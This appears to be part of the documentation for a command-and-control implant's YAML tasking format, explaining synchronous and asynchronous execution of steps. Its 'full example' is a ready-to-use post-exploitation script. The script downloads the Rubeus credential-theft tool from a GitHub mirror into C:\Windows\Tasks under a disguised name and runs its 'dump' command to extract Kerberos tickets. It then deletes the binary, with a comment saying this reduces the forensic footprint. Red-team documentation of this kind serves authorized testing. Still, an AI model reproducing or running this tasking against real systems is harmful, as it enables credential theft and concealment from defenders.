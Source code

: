### **4. Sync & Async**

This example demonstrates how to use synchronous and asynchronous execution modes to manage dependencies between commands. It shows a scenario where a file needs to be downloaded, extracted, and then processed. Synchronous mode ensures each step completes before the next one begins, preventing errors that could occur if steps overlap, such as attempting to extract a partially downloaded file.

Switching to synchronous mode is highly recommended for tasks with variable execution times or dependencies. While long sleep/checkin times *could* be used to approximate this behavior, they do not *guarantee* that tasks will complete successfully if they depend on previous steps. Synchronous mode provides that guarantee.

```yaml
commands:
  - name: download_and_process
    description: "Download a file and process it synchronously"
    steps:
      - action: execution_mode
        args: ["sync"]  # Switch to synchronous mode

      - action: http_get
        args: ["[http://example.com/large_file.zip](http://example.com/large_file.zip)", "C:\\temp\\large_file.zip"] 

      - action: shell
        args: ["unzip C:\\temp\\large_file.zip -d C:\\temp\\extracted"] 

      - action: shell
        args: ["process_data.exe C:\\temp\\extracted\\data.txt"]  

      - action: execution_mode
        args: ["async"] # Switch back to asynchronous mode (optional)
```

### **5. Full Example**
Here's an example script for pulling some tools down:

```
commands:
  - name: ghostpack_execute
    description: "Download and execute a GhostPack tool"
    steps:
      # Reduce sleep time for faster check-in
      - action: sleep
        args: [10]

      - action: execution_mode # flip to sync so the download completes before running the next command
        args: ['sync']

      # Download the GhostPack tool (e.g., Rubeus.exe)
      - action: http_get
        args: ["https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Rubeus.exe", "C:\\Windows\\Tasks\\sometool.exe"]

      # Execute the tool using shell command
      - action: shell
        args: ["C:\\Windows\\Tasks\\sometool.exe dump"]

      # Delete the tool after execution to reduce forensic footprint
      - action: delete_file
        args: ["C:\\Windows\\Tasks\\sometool.exe"]

      - action: execution_mode
        args: ['async']
```